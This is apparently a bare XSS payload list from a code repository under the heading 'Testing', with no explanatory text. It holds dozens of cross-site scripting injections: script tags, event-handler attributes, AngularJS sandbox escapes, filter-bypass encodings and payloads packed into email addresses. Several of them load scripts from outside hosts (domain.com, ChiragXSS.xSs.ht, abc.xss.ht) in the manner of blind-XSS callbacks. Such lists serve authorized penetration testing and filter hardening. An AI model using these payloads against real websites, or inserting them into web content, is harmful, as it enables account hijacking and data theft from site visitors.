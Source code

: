 # Testing
"/>&lt;script>alert(1)&lt;/script>"/>

{{'a'.constructor.prototype.charAt=''.valueOf;$eval("x='\"+(y='if(!window\u002ex)alert(window\u002ex=1)')+eval(y)+\"'");}}}}

<script>alert(1)%0d%0a-->%09</script

' accesskey=X onclick=alert(1) '

' onmouseover=alert() '

<img src=x onmouseover=confirm()>

‘%uff1cscript%uff1ealert(‘XSS’);%uff1c/script%uff1e’
#<img src=x onerror=alert(0)>

&lt;script&gt;alert(&#x27;xss&#x27;);&lt;/script&gt;

{{[].pop.constructor&#40'alert\u00281\u0029'&#41&#40&#41}}

'"; alert("XSS attack!"); //';

<img src=x onerror=alert(1)>
'-alert(1)-';"-alert(2)-"//"><svg/onload=alert(3)>
<img src=totallyfake onerror=import(‘//domain.com/‘);//
'"onclick=(co\u006efirm)?.`0`><sVg/i="${{7*7}}"oNload=" 0>(pro\u006dpt)`1`"></svG/</sTyle/</scripT/</textArea/</iFrame/</noScript/</seLect/--><h1><iMg/srC/onerror=alert`2`>%22%3E%3CSvg/onload=confirm`3`//<Script/src=//ChiragXSS.xSs.ht></scripT>


“><svg/onload=confirm(1)>”@gmail.com
<svg onload=location='javascript:alert(1)'>
"<script>alert(1)</script>"@gmail.com
"><--<img+src= "><svg/onload+alert(document.domain)>> --!>
'"></title></textarea></script></style></noscript><script src=abc.xss.ht></script>

test+(<script>alert(1)</script>)@gmail.com
"\/><img%20s+src+c=x%20on+onerror+%20="alert(1)"\>
"><svg+svg+svg\/\/On+OnLoAd=confirm(1)>



